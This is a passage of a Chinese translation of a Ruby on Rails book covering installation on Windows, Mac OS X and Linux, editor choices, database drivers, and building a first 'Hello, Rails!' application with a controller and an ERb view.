3. 如果你的系统没有自动解压，你需要解压这个存档。
4. 导航到InstantRails目录，双击InstantRails图标（那个大的红色I）启动InstantRails。
   - 如果你看到一个弹出窗口询问是否可以重新生成配置文件，请说“确定”。
   - 如果你看到一个安全警报说Apache被防火墙阻止了，那么……我们不会告诉你是否要阻止或解除阻止。对于本书的目的，我们不会使用Apache，所以这没关系。最安全的做法是保持阻止状态。如果你知道自己在做什么，并且你的机器上没有运行IIS，你可以解除端口阻止并在以后使用Apache。

你应该会看到一个小的InstantRails窗口出现。你可以用它来监控和控制Rails应用程序。然而，我们会稍微深入一些，所以我们将使用一个控制台窗口。要启动它，请单击InstantRails窗口左上角的I按钮（该按钮有一个黑色的*I*，右下角有一个红点）。从菜单中选择`Rails Applications...`，然后选择`Open Ruby Console Window`。你应该会看到一个命令窗口弹出，你会位于`rails_apps`目录中，如图3.1所示。你可以分别输入命令`ruby -v`和`rails -v`来验证你的Ruby和Rails版本。

至此，你已经启动并运行了。但是，在你跳到下一章的开头之前，你应该知道两个重要的事实。

首先，也是最重要的，每当你想在控制台窗口中输入命令时，*你必须使用从InstantRails菜单启动的控制台*。按照我们之前使用的相同过程（单击I，等等）。如果你打开一个常规的Windows命令提示符，东西就是不工作。（为什么？因为InstantRails是自包含的——它不会安装到你的全局Windows环境中。这意味着你需要的所有程序默认情况下都不在Windows路径中。你可以通过一些调整添加它们，然后使用常规命令窗口，但InstantRails的方式似乎同样简单。）

其次，在任何时候，你都可以通过打开一个InstantRails控制台并输入以下命令将你的Rails版本升级到最新版本

```
C:\rails_apps> gem update rails --include-dependencies
```

好的。你们Windows用户完成了：你可以跳到第3.5节 开发环境，第36页。我们那里见。

## 3.3 在Mac OS X上安装

从OS X 10.4.6开始，Mac用户有一个体面的Ruby安装作为标准配置。³ 你可以通过安装RubyGems，然后安装Rails和数据库来在此基础上安装Rails。

有趣的是，许多Mac用户选择了不同的路径。他们没有在内置的Ruby基础上构建，而是使用预打包的解决方案，例如Ryan Raaum的Locomotive，或者使用像MacPorts这样的包管理系统。

虽然使用像Locomotive这样的捆绑解决方案看起来像是不假思索的选择，但它有一个缺点：它不包含MySQL数据库。相反，它带有一个叫做SQLite的数据库。现在，SQLite对于小型应用程序来说是一个完全很好的数据库，这可能很适合你。然而，本书中的示例使用MySQL，大多数Rails站点使用MySQL或Postgres进行部署。此外，Locomotive在其应用程序下运行一个叫做Mongrel的Web服务器。这没问题，但本书中的示例假设你使用的是叫做WEBrick的东西。两者都可以正常工作，但你需要调整说明以适应Mongrel的工作方式。所以，我们建议你看一下接下来的“自己动手安装”说明。如果这些看起来太可怕，可以随意安装Locomotive（细节在下一页）。

### Mac的自行安装

准备好卷起袖子进行真正的安装了吗？你来对地方了。事实上，以防接下来的说明看起来太容易，我们将通过强迫你提前做一个决定来让它变得更难。

我们将在本节中做的是将Ruby和Rails所需的所有软件安装到你的系统上。而安装方式与Mac上的开发人员一样多。⁴ 因为安装有许多步骤，而且这些步骤在某种程度上取决于你运行的OS X版本，我们将把安装说明委托给网上的一些文档。这里就是决定：我们找到了两个真正好的（且经过充分测试的）关于如何在Mac上安装Rails的描述。

> 3. 而且OS X 10.5将直接包含Rails。
> 4. 可能更多，因为就我而言，我很少以相同的方式两次安装软件。

2. http://instantrails.rubyforge.org/wiki/wiki.pl


第一种方法来自丹·本杰明。他的文章*在Tiger系统上构建Ruby、Rails、LightTPD和MySQL*，是一份分步指南，指导你如何下载和构建所有必要软件，将你的Mac变成一台Rails机器。可在以下地址找到：

- http://hivelogic.com/articles/2005/12/01/ruby_rails_lighttpd_mysql_tiger

另一种方法是让计算机为你完成一些底层工作。OS X至少有两套包管理系统。它们负责软件的下载、依赖管理、安装和更新。詹姆斯·邓肯·戴维森对如何使用MacPorts包管理系统在OS X上安装Rails有出色的描述。（戴邓肯撰写此文时，MacPorts还被称为DarwinPorts。）邓肯的方法有一个真正优势：因为包管理器处理依赖关系，这使得升级和回滚各个组件的版本更容易。它有一个小缺点：你将安装布局的控制权交给了包管理器，所以你要么按MacPorts的方式做事，要么就完全不做。实际上，这不成问题。总之，你可以在以下地址找到邓肯的文章：

- http://duncandavidson.com/essay/2006/04/portsandbox

仔细阅读两者，做出选择，然后放手去做。我们等你……当你回来时，加入我们下一页关于编辑器的讨论。

### Locomotive Mac安装

你可以从 http://locomotive.raaum.org 下载Locomotive的.dmg文件。挂载它，然后将`Locomotive`文件夹拖放到适当的位置。然后通过进入该文件夹并运行`Locomotive.app`来启动Locomotive（当然，要先欣赏一下那个超酷的火车图标）。

Locomotive允许你导入现有的Rails项目并创建新项目。它的主窗口显示其管理的所有Rails项目的列表，并允许你启动和停止这些应用程序。你在Locomotive外部编辑你的应用程序文件。

如果你决定查看Windows安装说明，你会看到一个强烈警告：使用InstantRails提供的控制台来输入Rails命令。嗯，这里也是一样。使用Locomotive时，你必须使用它的控制台来输入命令。通过**Applications → Open Terminal**菜单选项访问它。

## 3.4 在Linux上安装

如果你是那种“用磁盘和磁铁在硬盘驱动器上拨弄比特来编码”的Linux用户，那么丹·本杰明针对Mac的指南可能会让你入门。但要小心一点：如果你的系统已经安装了Ruby，它可能没有你需要的库。我（戴夫）总是将Ruby安装到主目录下的一个目录中（比如~/ruby），然后在我的路径中包含~/ruby/bin。

我们其余凡人可能会使用我们发行版的包管理器来安装所需的代码（这与詹姆斯·邓肯·戴维森针对Mac的指南所做的非常相似）。但是，由于每个发行版都不同，我们将略过细节，转而参考一个在线资源，该资源包含了关于Ubuntu（一个流行的基于Debian的发行版）的详细信息。这里的链接是针对"Dapper Drake"发行版的。当你读到这里时，可能已经被更新的版本取代了。

- [http://wiki.rubyonrails.com/rails/pages/RailsOnUbuntuDebianTestingAndUnstable](http://wiki.rubyonrails.com/rails/pages/RailsOnUbuntuDebianTestingAndUnstable)
- [http://wiki.rubyonrails.com/rails/pages/RailsOnUbuntu](http://wiki.rubyonrails.com/rails/pages/RailsOnUbuntu)

## 3.5 开发环境

日常编写Rails程序的工作相当直接。每个人工作方式不同；以下是我的工作方式。

### 命令行

我在命令行上完成大部分工作。尽管有越来越多的图形界面工具可以帮助生成和管理Rails应用程序，但我发现命令行仍然是最强大的地方。花点时间熟悉你操作系统上的命令行是值得的。找出如何用它来编辑你正在输入的命令，如何搜索和编辑以前的命令，以及如何在你输入时完成文件和命令的名称。⁵

### 版本控制

我将所有工作保存在一个版本控制系统中（目前是Subversion）。我在创建新Rails项目时会特意将其签入Subversion，并在测试通过后提交更改。我通常每小时向代码库提交多次更改。

如果你与其他人一起参与Rails项目，可以考虑设置一个持续集成系统。当任何人签入更改时，CI系统将签出一份应用程序的新副本并运行所有测试。这是对你在更改时意外破坏内容的简单保险。你也可以设置你的CI系统，以便你的客户可以使用它来试用你应用程序的前沿版本。这种透明度是确保你的项目不会偏离轨道的好方法。

> 5. 所谓的Tab补全在Unix shell（如Bash和zsh）中是标准功能。它允许你输入文件名的前几个字符，按Tab键，然后shell会根据匹配的文件查找并完成名称。此行为在Windows XP命令行中默认也可用。你可以通过Microsoft免费提供的TweakUI增强工具在旧版本的Windows中启用此行为。

### 我的IDE在哪里？

如果你从C#和Java等语言转向Ruby和Rails，你可能想知道IDE的情况。毕竟，我们都知道没有至少100MB的IDE来支持我们的每一个按键，就不可能编写现代应用程序。对于你们这些开明的人来说，这里正是本书中我们建议你们坐下来的地方，最好两边各放一堆框架参考书和1000页的“入门指南”。

Ruby或Rails没有功能齐全的IDE（尽管有些环境接近）。相反，大多数Rails开发者使用普通的编辑器。事实证明，这并不像你可能想的那么成问题。对于其他表达能力较差的语言，程序员依靠IDE来完成许多繁重工作：IDE进行代码生成、辅助导航，并增量编译以提前警告错误。

然而，对于Ruby，这些支持大部分并不必要。像TextMate这样的编辑器给你提供了IDE的90%的功能，但重量轻得多。唯一缺少的有用IDE功能是重构支持。*

> *. 我倾向于使用一个编辑器处理所有事情。其他人则使用专门的编辑器来创建应用程序代码，而不是（比如说）HTML布局。对于后者，可以寻找流行工具（如Dreamweaver）的插件。

#### 编辑器

我使用程序员编辑器编写Rails程序。多年来我发现，不同的编辑器在不同语言和环境中效果最好。例如，我正在使用Emacs撰写本章，因为它的Filladapt模式在将XML整齐地格式化为输入时无与伦比。但Emacs并不适合Rails开发：我为此使用TextMate。虽然编辑器的选择是个人问题，但以下是一些在Rails编辑器中应寻找的功能建议。

- 支持Ruby和HTML的语法高亮。理想情况下支持.rhtml文件（一种在HTML中嵌入Ruby代码片段的Rails文件格式）。
- 支持Ruby源代码的自动缩进和重新缩进。这不仅仅是一个美学特性：让你的编辑器在你输入时缩进程序是发现代码中错误嵌套的最佳方式。能够重新缩进在你重构代码和移动内容时很重要。（TextMate在粘贴剪贴板代码时重新缩进的能力非常方便。）
- 支持插入常见的Ruby和Rails结构。你将编写许多短方法：如果IDE能用一两个按键创建方法骨架，你就可以专注于里面有趣的部分。
- 良好的文件导航。正如我们将看到的，Rails应用程序分布在许多文件中。<sup>6</sup> 你需要一个能帮助你在这些文件之间快速导航的环境：你将在控制器中添加一行来加载一个值，切换到视图添加一行来显示它，然后切换到测试来验证你做的一切都正确。像记事本那样，你需要遍历“文件打开”对话框来选择每个要编辑的文件，是行不通的。我个人喜欢侧边栏中文件树视图的组合，一套能让我通过名称在目录树中查找文件（或文件）的小按键，以及一些内置的智能功能，知道如何导航（比如说）在控制器动作和相应视图之间。
- 名称补全。Rails中的名称往往很长。一个好编辑器会让你输入前几个字符，然后按下一个键就建议可能的补全。

我们犹豫是否推荐特定的编辑器，因为我们只认真使用过少数几种，而且无疑会遗漏某人最喜欢的编辑器。然而，为了帮助你开始使用记事本以外的工具，这里有一些建议。

- TextMate ([http://macromates.com/](http://macromates.com/))：Mac OS X上的Ruby/Rails首选编辑器。
- RadRails ([http://www.radrails.org/](http://www.radrails.org/))：一个集成的Rails开发环境，基于Eclipse平台构建，可在Windows、Mac OS X和Linux上运行。（它在2006年获得最佳基于Eclipse的开源开发工具奖。）
- jEdit ([http://www.jedit.org/](http://www.jedit.org/))：一个功能齐全的编辑器，支持Ruby。它有广泛的插件支持。
- Komodo ([http://www.activestate.com/Products/Komodo/](http://www.activestate.com/Products/Komodo/))：ActiveState的动态语言IDE，包括Ruby。
- Arachno Ruby ([http://www.ruby-ide.com/ruby/ruby_ide_and_ruby_editor.php](http://www.ruby-ide.com/ruby/ruby_ide_and_ruby_editor.php))：一个商业的Ruby IDE。

问问使用你操作系统的经验丰富的开发者他们在用什么编辑器。花一周左右时间尝试其他选择，然后再确定下来。而且，一旦你选择了编辑器，就要以每天学习一个新功能为荣。

> 6. 一个新创建的Rails应用程序在诞生时包含44个文件，分布在36个目录中。这还是在你写任何东西之前……


## 3.6 Rails 与数据库

创建你自己的 Rails API 文档

你可以创建自己本地版本的整合 Rails API 文档。只需在命令提示符下输入以下命令（如果你使用 InstantRails 或 Locomotive，请记得在你的 Rails 环境中启动命令窗口）。

```
rails_apps> rails dummy_app
rails_apps> cd dummy_app
dummy_app> rake rails:freeze:gems
dummy_app> echo >vendor/rails/activesupport/README
dummy_app> rake doc:rails
```

最后一步需要一些时间。完成后，你将获得以 `doc/api` 为起始目录的 Rails API 文档目录树。我建议将这个文件夹移动到你的桌面，然后删除 `dummy_app` 目录树。

### 桌面

我不会告诉你在使用 Rails 时如何组织你的桌面，但我会描述我的做法。

大多数时候，我都在编写代码、运行测试，并在浏览器中查看我的应用程序。因此，我的主要开发桌面上永久打开着一个编辑器窗口和一个浏览器窗口。我还想关注我的应用程序生成的日志，所以我保持一个终端窗口打开。在里面，我使用 `tail -f` 来滚动显示日志文件更新的内容。我通常使用非常小的字体运行这个窗口，以便占用更少的空间——如果我看到有趣的内容闪过，我会放大它来查看。

我还需要访问 Rails API 文档，我在浏览器中查看它。在介绍部分，我们讨论了使用 `gem_server` 命令来运行包含 Rails 文档的本地 Web 服务器。这很方便，但不幸的是，它将 Rails 文档分散在多个单独的文档树中。如果你在线，你可以使用 http://api.rubyonrails.org 在一个地方查看所有 Rails 文档的整合视图。侧边栏描述了如何在你自己的机器上创建相同的文档。

> **数据库密码**

这里有一个很可能被证明是有争议的说明。你*总是*想为你的生产数据库设置一个密码。然而，大多数 Rails 开发者似乎并不在开发数据库上这样做。事实上，大多数人在懒惰的道路上走得更远，在开发时也只使用默认的 MySQL root 用户。这危险吗？有些人是这么说的，但一般的开发机器位于（或应该位于）防火墙后面。而且，对于 MySQL，你可以更进一步，通过设置 `skip-networking` 选项来禁用对数据库的远程访问。因此，在本书中，我们将假设你随大流了。如果你相反地创建了特殊的数据库用户和/或设置了密码，你将需要调整你的连接参数和你输入的命令（例如，如果你设置了密码，你需要在 MySQL 命令中添加 `-p` 选项）。有关为生产环境创建安全 MySQL 安装的在线说明，请查看 Security Focus (http://www.securityfocus.com/infocus/1726) 上的一篇文章。

你需要两层软件将你的应用程序代码链接到数据库引擎。第一层是数据库驱动程序，一个 Ruby 库，它将底层的数据库 API 连接到更高层的 Ruby 编程世界。因为数据库通常提供可以从 C 访问的接口库，所以这些 Ruby 库通常用 C 编写，并且必须为你的目标环境编译。⁷ 第二层代码是 Rails 数据库适配器。它位于 Ruby 库和你的应用程序之间。每个数据库库都有自己的特定于数据库的 API。Rails 数据库适配器隐藏了这些差异，这样 Rails 应用程序就不需要知道它运行在什么类型的数据库上。

我们在本章开头的安装步骤中安装了 MySQL 数据库驱动程序。在你熟悉 Rails 时，这可能就足够了。如果是这样，你可以安全地跳转到第 **3.7** 节 *保持更新*，在第 **42** 页。

如果你还在读这部分，这意味着你想连接到 MySQL 以外的数据库。Rails 可以与 DB2、MySQL、Oracle、Postgres、Firebird、SQL Server 和 SQLite 一起工作。除了 MySQL，你需要安装一个数据库驱动程序，一个 Rails 可以用来连接和使用你的数据库引擎的库。本节包含完成此操作的链接和说明。

数据库驱动程序都是用 C 编写的，主要以源代码形式分发。如果你不想费心从源代码构建驱动程序，请仔细查看驱动程序的网站。很多时候你会发现作者也分发二进制版本。

⁷ 然而，你可能不必自己编译——通常可以找到为你的平台预编译的库。

如果你找不到二进制版本，或者你更愿意从源代码构建，你需要在你的机器上有一个开发环境来构建库。在 Windows 下，这意味着要有一份 Visual C++。在 Linux 下，你需要 `gcc` 和相关工具（但这些可能已经安装）。

在 OS X 下，你需要安装开发工具（它们随操作系统一起提供，但默认未安装）。你还需要将数据库驱动程序安装到正确版本的 Ruby 中。在回溯到第 34 页的安装说明中，我们安装了自己的 Ruby 版本，绕过了内置版本。在构建和安装数据库驱动程序时，记住让你的 Ruby 版本在你的路径中排在第一位很重要。我总是运行命令 `which ruby` 来确保我没有运行来自 `/usr/bin` 的 Ruby。

下表列出了可用的数据库适配器，并给出了它们各自主页的链接。

| DB2 | http://raa.ruby-lang.org/project/ruby-db2 |
| Firebird | http://rubyforge.org/projects/fireruby/ |
| MySQL | http://www.tmtm.org/en/mysql/ruby |
| Oracle | http://rubyforge.org/projects/ruby-oci8 |
| Postgres | http://ruby.scripting.ca/postgres/ |
| SQL Server | （见表格后的说明） |
| SQLite | http://rubyforge.org/projects/sqlite-ruby |

有一个纯 Ruby 版本的 Postgres 适配器可用。从 Ruby-DBI 页面 http://rubyforge.org/projects/ruby-dbi 下载 `postgres-pr`。

MySQL 和 SQLite 也可以作为 RubyGems 下载（分别是 `mysql` 和 `sqlite`）。

与 SQL Server 接口需要一点努力。以下是基于 Joey Gibson（他编写了 Rails 适配器）撰写的一份说明。

假设你使用一键安装程序将 Ruby 加载到你的系统上，你已经拥有了连接 SQL Server 所需的大部分库。但是，ADO 模块没有安装。请按照以下步骤操作（感谢 Daniel Berger）：

- 1. 浏览到 http://rubyforge.org/projects/ruby-dbi，获取 Ruby-DBI 的最新发行版。
- 2. 打开一个命令窗口，导航到你解压 ruby-dbi 库的位置。输入以下命令：

```
c:\ruby-dbi> ruby setup.rb config --with=dbd_ado
c:\ruby-dbi> ruby setup.rb setup
c:\ruby-dbi> ruby setup.rb install
```

SQL Server 适配器仅适用于 Windows 系统，因为它依赖于 Win32OLE。

## 3.7 保持更新

假设你使用 RubyGems 安装了 Rails，保持更新相对容易。发出命令

```
dave> gem update rails --include-dependencies
```

RubyGems 将自动更新你的 Rails 安装。下次启动应用程序时，它将使用这个最新版本的 Rails。（我们将在第 614 页开始的 *部署和生产* 章节中更详细地讨论在生产环境中更新你的应用程序。）RubyGems 会保留它安装的库的先前版本。你可以用以下命令删除它们

```
dave> gem cleanup
```

安装新版本的 Rails 后，你可能还想更新 Rails 最初添加到你应用程序中的文件（它用于 AJAX 支持的 JavaScript 库、各种脚本等）。你可以通过在应用程序的顶级目录中运行以下命令来完成此操作。

```
app> rake rails:update
```

## 3.8 Rails 与 ISP

如果你想在共享托管环境中将 Rails 应用程序上线，你需要找到一个熟悉 Ruby 的 ISP。寻找一个支持 Ruby、拥有你需要的 Ruby 数据库驱动程序，并提供 FastCGI 和/或 LightTPD 支持的 ISP。我们将在第 614 页开始的第 27 章 *部署和生产* 中更详细地讨论部署 Rails 应用程序。

Rails 维基上的页面 [http://wiki.rubyonrails.com/rails/pages/RailsWebHosts](http://wiki.rubyonrails.com/rails/pages/RailsWebHosts) 列出了一些对 Rails 友好的 ISP。

现在我们已经安装了 Rails，让我们使用它。继续下一章。


# 第四章

## 即时满足

让我们编写一个简单的应用程序，以验证 Rails 已妥善安装在我们的机器上。在此过程中，我们将一窥 Rails 应用程序的工作方式。

### 4.1 创建新应用

当你安装 Rails 框架时，你也会获得一个新的命令行工具 `rails`，它用于构建你编写的每个新 Rails 应用程序。

为什么我们需要一个工具来完成这项工作——为什么我们不能直接在喜欢的编辑器里从头开始编写应用程序的源代码呢？嗯，我们当然可以直接编写。毕竟，Rails 应用程序本质上就是 Ruby 源代码。但 Rails 在幕后也做了很多神奇的事情，以确保我们的应用程序能以最少的显式配置正常运行。为了让这些魔法生效，Rails 需要找到你应用程序的所有各个组成部分。正如我们稍后将看到的（在第14.2节，目录结构，第229页），这意味着我们需要创建一个特定的目录结构，并将编写的代码放入相应的位置。`rails` 命令就是为我们创建这个目录结构并填充一些标准的 Rails 代码。

要创建你的第一个 Rails 应用程序，请打开一个 shell 窗口，并导航到你想要创建应用程序目录结构的文件系统位置。在我们的示例中，我们将在名为 `work` 的目录中创建项目。在该目录中，使用 `rails` 命令创建一个名为 `demo` 的应用程序。这里要稍加注意——如果你已经有一个名为 `demo` 的现有目录，系统会询问你是否要覆盖任何现有文件。

```
dave> cd work
work> rails demo
 create
 create  app/controllers
 create  app/helpers
 create  app/models
 create   log/development.log
 create   log/test.log
work>
```

该命令创建了一个名为 demo 的目录。进入该目录，并列出其内容（在 Unix 机器上使用 ls，在 Windows 下使用 dir）。你应该会看到一堆文件和子目录。

```
work> cd demo
demo> ls -p
README        components/   doc/          public/       tmp/
Rakefile      config/       lib/          script/       vendor/
app/          db/           log/          test/
```

所有这些目录（以及它们包含的文件）一开始可能会让人望而生畏，但我们在开始时可以忽略其中大部分。在本章中，我们将直接使用其中的两个：`app` 目录，我们将在此编写应用程序；以及 `script` 目录，其中包含一些有用的实用脚本。

让我们从 `script` 子目录开始。它包含的一个脚本名为 `server`。这个脚本启动一个独立的 Web 服务器，可以在 WEBrick¹ 下运行我们新创建的 Rails 应用程序。那么，话不多说，让我们启动我们的演示应用程序。

```
demo> ruby script/server
=> Booting WEBrick...
=> Rails application started on http://0.0.0.0:3000
=> Ctrl-C to shutdown server; call with --help for options
[2006-01-08 21:44:10] INFO  WEBrick 1.3.1
[2006-01-08 21:44:10] INFO  ruby 1.8.2 (2004-12-30) [powerpc-darwin8.2.0]
[2006-01-08 21:44:11] INFO  WEBrick::HTTPServer#start: pid=10138 port=3000
```

正如启动跟踪信息的最后一行所示，我们刚刚在端口 3000 上启动了一个 Web 服务器²。我们可以通过将浏览器指向 URL http://localhost:3000 来访问该应用程序。结果显示在图 4.1 中（尽管你看到的版本号可能会不同）。

如果你查看启动 WEBrick 的窗口，你会看到显示你访问应用程序的跟踪信息。我们将让 WEBrick 在此控制台窗口中保持运行。稍后，当我们编写应用程序代码并通过浏览器运行它时，我们将能够使用此控制台窗口来跟踪传入的请求。当需要关闭应用程序时，你可以在此窗口中按 control-C 来停止 WEBrick。（现在先不要这样做——我们稍后会用到这个特定的应用程序。）

¹ WEBrick 是一个纯 Ruby Web 服务器，随 Ruby 1.8.1 及更高版本分发。因为它保证可用，所以 Rails 使用它作为其开发 Web 服务器。但是，如果你的系统上安装了名为 Mongrel 或 Lighttpd 的 Web 服务器（并且 Rails 能找到其中一个），`script/server` 命令将优先使用它们中的一个，而不是 WEBrick。你可以通过向命令提供选项来强制 Rails 使用 WEBrick。

```
demo>ruby script/server webrick
```

² 地址中的 0.0.0.0 部分意味着 WEBrick 将在所有接口上接受连接。在 Dave 的 OS X 系统上，这意味着本地接口（127.0.0.1 和 ::1）以及他的局域网连接。



此时，我们有一个正在运行的新应用程序，但它里面没有任何我们的代码。让我们纠正这种情况。

### 4.2 你好，Rails！

我忍不住——为了尝试一个新系统，我必须编写一个 *Hello, World!* 程序。Rails 中的等效程序将是一个向浏览器发送我们愉快问候的应用程序。

正如我们在第2章《Rails 应用程序的架构》（第22页）中看到的，Rails 是一个模型-视图-控制器（Model-View-Controller）框架。Rails 接受来自浏览器的传入请求，解码请求以找到一个控制器，并调用该控制器中的一个动作方法。然后，控制器调用一个特定的视图向用户显示结果。好消息是，Rails 负责处理链接所有这些动作的大部分内部管道。要编写我们简单的 *Hello, World!* 应用程序，我们需要一个控制器和一个视图的代码。我们不需要模型的代码，因为我们不处理任何数据。让我们从控制器开始。

与我们使用 `rails` 命令创建新 Rails 应用程序的方式相同，我们也可以使用生成器脚本为我们的项目创建一个新控制器。这个命令叫做 `generate`，它位于我们创建的演示项目的 `script` 子目录中。因此，要创建一个名为 `Say` 的控制器，我们确保位于 `demo` 目录中并运行该脚本，传入我们要创建的控制器的名称³。

```
demo> ruby script/generate controller Say
exists  app/controllers/
exists  app/helpers/
create  app/views/say
exists  test/functional/
create  app/controllers/say_controller.rb
create  test/functional/say_controller_test.rb
create  app/helpers/say_helper.rb
```

该脚本记录了它检查的文件和目录，并在将新的 Ruby 脚本或目录添加到你的应用程序时进行标注。目前，我们对其中一个脚本（以及稍后的新目录）感兴趣。

我们将要查看的源文件是控制器。你会在文件 `app/controllers/say_controller.rb` 中找到它。让我们看看它。

```ruby
class SayController < ApplicationController
end
```

非常简洁，对吧？`SayController` 是一个继承自 `ApplicationController` 的空类，因此它自动获得所有默认的控制器行为。让我们给它加点料。我们需要添加一些代码来让我们的控制器处理传入的请求。这段代码需要做什么？目前，它什么都不做——我们只需要一个空的动作方法。那么下一个问题是，这个方法应该叫什么名字？要回答这个问题，我们需要看看 Rails 处理请求的方式。

#### Rails 和请求 URL

与任何其他 Web 应用程序一样，Rails 应用程序在其用户看来与一个 URL 相关联。当你将浏览器指向该 URL 时，你就是在与应用程序代码对话，该代码会为你生成响应。

³ “控制器的名称”这个概念实际上比你想象的要复杂，我们将在第14.4节《命名约定》（第241页）中详细解释。目前，我们只需假设控制器名为 `Say`。

然而，实际情况比这稍微复杂一些。让我们想象你的应用程序可以通过 URL http://pragprog.com/ 访问。托管你的应用程序的 Web 服务器对路径相当智能。它知道对此 URL 的传入请求必须是与应用程序对话。传入 URL 中超出此路径的任何部分都不会改变这一点——同一个应用程序仍会被调用。任何额外的路径信息都会传递给应用程序，应用程序可以将其用于自己的内部目的。

Rails 使用路径来确定要使用的控制器的名称以及要在该控制器上调用的动作名称⁴。这在图 4.2 中有所说明。路径的第一部分是控制器的名称，第二部分是动作的名称。这在下一页的图 4.3 中有展示。



图 4.2：URL 被映射到控制器和动作

#### 我们的第一个动作

让我们向我们的 say 控制器添加一个名为 hello 的动作。根据上一节的讨论，我们知道添加一个 hello 动作意味着在 `SayController` 类中创建一个名为 `hello` 的方法。但它应该做什么呢？目前，它不需要做任何事情。记住，控制器的工作是设置好一切，以便视图知道要显示什么。在我们的第一个应用程序中，没有什么需要设置的，所以一个空的动作就可以正常工作。使用你喜欢的编辑器更改 `app/controllers` 目录中的 `say_controller.rb` 文件，按如下所示添加 `hello` 方法。

```ruby
class SayController < ApplicationController
  def hello
  end
end
```

⁴ Rails 在解析传入 URL 方面相当灵活。在本章中，我们描述了默认机制。我们将在第20.2节《路由请求》（第394页）中展示如何覆盖此机制。


http://pragprog.com/say/hello

创建一个SayController实例并调用hello动作方法。



图 4.3：Rails路由到控制器和动作

现在让我们尝试调用它。在浏览器窗口中导航到URL [http://localhost:3000/say/hello](http://localhost:3000/say/hello)。（请注意，在开发环境中，路径前面没有应用程序字符串——我们直接路由到控制器。）你将看到类似以下内容。


虽然这可能令人烦恼，但这个错误是完全合理的（除了那个奇怪的路径）。我们创建了控制器类和动作方法，但还没有告诉Rails要显示什么。这就是视图的作用所在。还记得我们运行脚本创建新控制器的时候吗？该命令为我们的应用程序添加了三个文件和一个新目录。该目录包含控制器视图的模板文件。在我们的情况下，我们创建了一个名为`say`的控制器，因此视图将在`app/views/say`目录中。

为了完成我们的*Hello, World!*应用程序，让我们创建一个模板。默认情况下，Rails在与它处理的动作同名的文件中查找模板。在我们的情况下，这意味着我们需要在`app/views/say`目录中创建一个名为`hello.rhtml`的文件。（为什么是`.rhtml`？我们稍后会解释。）现在，让我们在其中放一些基本的HTML。



图 4.4：控制器和视图的标准位置

```
Download work/demo1/app/views/say/hello.rhtml

<html>
  <head>
    <title>Hello, Rails!</title>
  </head>
  <body>
    <h1>Hello from Rails!</h1>
  </body>
</html>
```

保存文件`hello.rhtml`，然后刷新浏览器窗口。你应该会看到它显示我们友好的问候语。注意，我们不必重启应用程序就能看到更新。在开发过程中，Rails会在你保存文件时自动将更改集成到正在运行的应用程序中。


到目前为止，我们已经在Rails应用程序树中的两个文件中添加了代码。我们向控制器添加了一个动作，并创建了一个模板来在浏览器中显示页面。这些文件位于Rails层次结构中的标准位置：控制器放入`app/controllers`，视图放入`app/views`的子目录。这在图4.4中显示。

##### 使其动态化

到目前为止，我们的Rails应用程序相当无聊——它只是显示一个静态页面。为了使其更动态化，让我们让它在每次显示页面时都显示当前时间。

为此，我们需要对视图中的模板文件进行更改——它现在需要将时间作为字符串包含进去。这就引出了两个问题。首先，我们如何向模板添加动态内容？其次，我们从哪里获取时间？

##### 动态内容

在Rails中有两种创建动态模板的方法。<sup>5</sup> 一种使用一种称为Builder的技术，我们将在第468页的第22.1节 *Builder模板* 中讨论。第二种方法，也就是我们将在这里使用的方法，是在模板本身中嵌入Ruby代码。这就是为什么我们将模板文件命名为`hello.rhtml`：`.rhtml`后缀告诉Rails使用名为ERb（嵌入式Ruby）的系统来扩展文件中的内容。

ERb是一个过滤器，它接收`.rhtml`文件并输出转换后的版本。在Rails中，输出文件通常是HTML，但它可以是任何内容。普通内容不加更改地传递。然而，`<%=`和`%>`之间的内容被解释为Ruby代码并执行。该执行的结果被转换为字符串，该值将替代文件中的`<%=...%>`序列。例如，将`hello.rhtml`更改以包含以下内容。


```
<ul>
  <li>Addition: <%= 1+2 %> </li>
  <li>Concatenation: <%= "cow" + "boy" %> </li>
  <li>Time in one hour:   <%= 1.hour.from_now   %> </li>
</ul>
